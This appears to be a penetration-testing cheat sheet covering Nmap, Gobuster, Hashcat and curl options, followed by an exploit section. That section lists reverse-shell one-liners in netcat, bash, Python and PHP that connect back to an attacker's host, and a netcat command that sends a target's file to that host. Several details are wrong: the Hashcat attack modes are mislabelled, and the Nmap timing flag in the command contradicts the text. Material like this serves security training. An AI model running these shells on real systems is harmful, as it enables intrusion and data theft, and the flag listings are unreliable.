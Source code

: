 # Penetration Testing Basics

## Reconnaissance

### Active Reconnaissance with Nmap

Nmap (Network Mapper) is a powerful tool used to discover hosts and services on a computer network. It is commonly used during penetration testing for port scanning, service detection, and operating system identification.

#### Common Nmap Options:
- `-sS`: Performs a stealthy SYN scan.
- `-sU`: Performs aUDP scan.
- `-sV`: Detects service versions.
- `-O`: Detects the operating system.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-T2`: Sets a "polite" timing template to reduce network congestion or detection.
- `-p-`: Scans all 65,535 TCP ports.
- `target_ip`: Replace this with the IP address of your target.

#### Full Nmap Command:
```bash
sudo nmap -sS -sV --script=default,vuln -p- -T5 <ip target_ip>
```

### Gobuster Command
DirBuster is a powerful tool for brute-forcing directories and file names on a web server to enumerate hidden resources
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
In Kali there is a GUI version called DirBuster
![image](https://github.com/user-attachments/assets/cbd21222-0f45-47da-bc48-99025523a4c5)


#### Hashcat Usage Guide

Hashcat is a powerful password cracking tool that supports multiple hash algorithms and attack modes. This guide covers the essential options and their explanations to help you get started.

#### Basic Syntax

```bash
hashcat -m <hash_mode> -a <attack_mode> <hash_file> <wordlist>
```
#### Hashcat Attack Modes:

- `-a 0`: **Straight** (Dictionary attack)  
  Tries each word in the wordlist.  
  Example: `hashcat -m 0 -a 0 hash.txt rockyou.txt`

- `-a 1`: **Combination**  
  Combines two wordlists.  
  Example: `hashcat -m 0 -a 1 hash.txt wordlist1.txt wordlist2.txt`

- `-a 2`: **Mask**  
  Generates passwords based on a mask pattern.  
  Example: `hashcat -m 0 -a 2 hash.txt ?l?l?d?d`

- `-a 3`: **Brute-force**  
  Tries all combinations of a given character set.  
  Example: `hashcat -m 0 -a 3 hash.txt ?a?a?a?a`

- `-a 4`: **Toggle-case**  
  Tries passwords with different case variations.  
  Example: `hashcat -m 0 -a 4 hash.txt`

- `-a 5`: **Hybrid Mask + Wordlist**  
  Combines a wordlist and a mask.  
  Example: `hashcat -m 0 -a 5 hash.txt wordlist.txt ?d?d`

#### Common Hashcat Hash Modes:

- `-m 0`: MD5  
- `-m 100`: SHA1  
- `-m 1400`: SHA256  
- `-m 1700`: SHA512  
- `-m 3000`: LM  


## Useful Curl Options

### Basic Usage
#### Silent Mode and Debugging
- `-s`: Silent mode. Suppresses the progress meter and error messages.
- `-v`: Verbose mode. Provides detailed information about the request and response.

#### Proxy Support
- `-x <proxy>`: Specifies a proxy to use for the request. Example: `-x http://proxy.example.com:8080`.

#### Custom Headers and Data
- `-H <header>`: Adds a custom header to the request. Example: `-H "Authorization: Bearer <token>"`.
- `-d <data>`: Sends data in a POST request. Example: `-d "param=value"`.

### Adding Cookies
- `-b <data|filename>`: Sends cookies with the request. Example:
  - Inline cookies: `-b "name=value; name2=value2"`
  - From a file: `-b cookies.txt`
- `-c <filename>`: Saves cookies to a file. Example: `-c cookies.txt`.


#### HTTP Method Specification
- `-X <method>`: Specifies the HTTP method to use. Example: `-X POST`.

#### Output Handling
- `-o <file>`: Saves output to a file instead of standard output. Example: `-o response.txt`.
- `-O`: Saves the file with the same name as the remote file.

#### SSL/TLS Options
- `-k`: Ignores SSL certificate errors.

#### Redirects
- `-L`: Follows redirects automatically.

#### Authentication
- `-u <user:password>`: Supplies credentials for basic authentication.

## Exploit

#### Useful commands:

- `cat /etc/os-release `: **OS version**
- `script /dev/null -c /bin/bash`: **Get a bash shell**
- `sudo -l`: **List our commands you can run as root**


### Reverse Shell Basics

#### Listener Setup

On your host machine, start a listener using Netcat:
```bash
nc -lvnp 9999
```
https://ed4m4s.blog/reverse-shells
---

## Common Reverse Shell Commands

#### 1. Using Netcat
```bash
nc <your_host_ip> 9999 -e /bin/bash
```

**Alternative (If `-e` is disabled):**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <your_host_ip> 9999 > /tmp/f
```

---

#### 2. Using Bash
```bash
bash -i >& /dev/tcp/<your_host_ip>/9999 0>&1
```

---

#### 3. Using Python
**For Python 3:**
```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<your_host_ip>",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'
```

---

#### 4. Using PHP
```bash
php -r '$sock=fsockopen("<your_host_ip>",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```



## Hands on Objectives

#### Useful commands:
using scp to transfer files
- `scp <file> character@10.10.14.60:/path/to/destination/`
- Local Machine: `nc -lvnp <PORT> >` Target Machine: `cat '<filename>' | nc <YOURIPADDRESS> <PORT>`

